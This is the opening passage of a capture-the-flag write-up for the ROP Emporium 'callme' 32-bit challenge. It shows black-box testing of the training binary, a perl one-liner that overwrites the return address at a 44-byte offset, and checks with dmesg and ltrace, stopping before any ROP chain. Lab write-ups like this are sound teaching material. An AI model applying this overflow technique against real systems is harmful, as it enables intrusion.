 # callme
The challenge is available [here](https://ropemporium.com/challenge/callme.html).

## Black-Box Test
Let's start as usual with an initial check of the program's behavior.

```
./callme32
```
![](./0.png)

In this challenge as well, the return address is located at the same index.

```
perl -e 'print "A"x44 . "\xef\xbe\xad\xde"' | ./callme32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

Before we start exploring in more depth, let's check what the maximum input size we can enter is.

```
ltrace ./callme32
```
![](./3.png)

By entering simple input (in this case, `ABCD`) while running the program with `ltrace`, we discovered that the maximum input size we can enter is `512` bytes.

## In-depth research

